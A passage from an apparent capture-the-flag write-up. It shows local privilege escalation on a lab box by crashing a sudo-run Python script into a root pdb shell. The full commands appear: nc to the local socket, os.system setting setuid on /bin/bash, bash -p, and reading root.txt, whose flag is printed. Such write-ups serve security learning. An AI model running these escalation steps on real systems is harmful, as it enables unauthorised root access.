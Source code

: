 As can be seen from the code above, if you choose _a_ from the menu for example there is not else statement for the variable _options_. Therefore you will trigger _pdb.post_mortem_, which will give you an interactive gdb shell and run python commands.

So in the first ssh session we start the script like:

```{.bash caption="ssh session 1 - start server" style=mystyle}
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:5959
```

In a second session we trigger the bug connecting to the socket and chose _a_ from the menu:
```{.bash caption="ssh session 2 - connect to server" style=mystyle}
user@forge:~$ nc localhost 5959
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do:
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
a
```

The admin password to connect can be seen from the code above.

After triggering we can look at our first session and have an interactive shell there.

```{.bash caption="ssh session 1 - gdb shell" style=mystyle}
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) 1+1
2
(Pdb) import os
(Pdb) os.system("id")
uid=0(root) gid=0(root) groups=0(root)
0
(Pdb) os.system("chmod 4775 /bin/bash")
0
(Pdb) exit
```

I chose to setuid modify _/bin/bash_ to gain an interactive shell afterwards.

```{.bash caption="grabbing root.txt" style=mystyle}
user@forge:~$ /bin/bash -p
bash-5.0# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
bash-5.0# cd /root
bash-5.0# cat root.txt
ae37345dd6a5cf9001c7668496ab77c3
bash-5.0#
```

That's it. Box rooted - root.txt _ae37345dd6a5cf9001c7668496ab77c3_

